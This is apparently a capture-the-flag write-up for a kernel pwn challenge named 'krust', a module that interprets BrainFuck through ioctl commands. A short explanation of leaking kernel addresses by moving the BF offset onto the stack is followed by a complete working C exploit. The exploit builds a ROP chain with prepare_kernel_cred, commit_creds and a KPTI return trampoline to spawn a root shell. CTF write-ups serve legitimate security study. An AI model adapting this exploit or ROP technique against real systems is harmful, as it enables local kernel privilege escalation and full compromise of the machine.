 # Pwn

## Krust

krust is a kernel module which implements the BrainFuck interpreter. Besides the original BrainFuck features, the kernel module exports three ioctl interfaces by character device to:

1. run BrainFuck code, which cmd is 0x4500BEEF
2. get value from result stack, which cmd is 0x8500BEEF
3. put our data into result stack, which cmd is 0x45001234

We can use feat.1 “>” multiple times to move BrainFuck offset to where register $rbp points to, and use feat.1 to run “.>” repeatedly to move addresses on the stack into the BF result stack. Then we just use feat.2 to leak kernel addresses in the BrainFuck result stack, which lives in the stack.

Once we get the kernel address, we can subtract offset to get kernel base address and build ROP chains. Then we use feat.3 to put the ROP chain into result stack, and run “<'' multiple times to move BrainFuck offset back to $rsp, and run “,>” to move data which are on the BrainFuck result stack into $rsp (krust ioctl calling stack). Those first ROP gadget will be viewed as the return address and run the ROP chain after krust ioctl handler finish its work.



```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <sys/ioctl.h>

#define wcmd1 0x4500BEEF // write1
#define wcmd2 0x45001234 // write2
#define rcmd1 0x8500BEEF // read our payload

size_t user_ss, user_cs, user_rflags, user_sp;
void save_status() {
    __asm__(""
            "mov user_ss, ss;"
            "mov user_cs, cs;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("[*] Status has been saved.\n");
}

void get_shell()
{
    system("sh");
}

int main()
{
    int fd;
    char payload[0x500];
    unsigned long buf[0x500 / 8];
    unsigned long rop[0x500 / 8];
    unsigned long kern_base;

    save_status();
    fd = open("/dev/krust", O_RDWR);

    // shift 0x500
    for (int i = 0; i < 0x500; i++)
        payload[i] = '>';
    ioctl(fd, wcmd1, payload);

    // shift 0x3a0 and leak
    for (int i = 0; i < 0x400; i++)
        payload[i] = '>';
    for (int i = 0x400; i < 0x500; i+=2) {
        payload[i] = '.';
        payload[i+1] = '>';
    }
    ioctl(fd, wcmd1, payload);

    ioctl(fd, rcmd1, buf);
    for (int i = 0; i < sizeof(buf) / sizeof(buf[0]); i++) {
        printf("%03x: 0x%016lx\n", i, buf[i]);
    }
    kern_base = buf[1] - 0x16b7e1;
    // ffffffff8107e660 T commit_cred
    unsigned long commit_cred = kern_base + 517728;


    int idx = 4;
    memset(rop, '+', sizeof(rop));
    // 0xffffffff81057620 : pop rdi ; ret
    rop[idx++] = kern_base + 357920;
    rop[idx++] = 0;

    // ffffffff8107e940 T prepare_kernel_cred
    rop[idx++] = kern_base + 518464;

    // 0xffffffff8101a913 : pop rcx ; ret
    rop[idx++] = kern_base + 108819;
    rop[idx++] = commit_cred;

    // 0xffffffff811fcf50 : mov rdi, rax ; pop rbp ; jmp rcx
    rop[idx++] = kern_base + 2084688;
    rop[idx++] = 0;

    // ffffffff81600df0 T swapgs_restore_regs_and_return_to_usermode
    // kpti_trampoline
    rop[idx++] = kern_base + 6295024 + 22;
    rop[idx++] = 0;
    rop[idx++] = 0;
    rop[idx++] = (unsigned long)get_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
    ioctl(fd, wcmd2, rop);




    getchar();
    for (int i = 0; i < 0xf8; i++)
        payload[i] = '<';
    for (int i = 0xf8; i < 0x500; i+=2) {
        payload[i] = ',';
        payload[i+1] = '>';
    }

    if (fork()) {
        ioctl(fd, wcmd1, payload);
    }

    return 0;
}
```

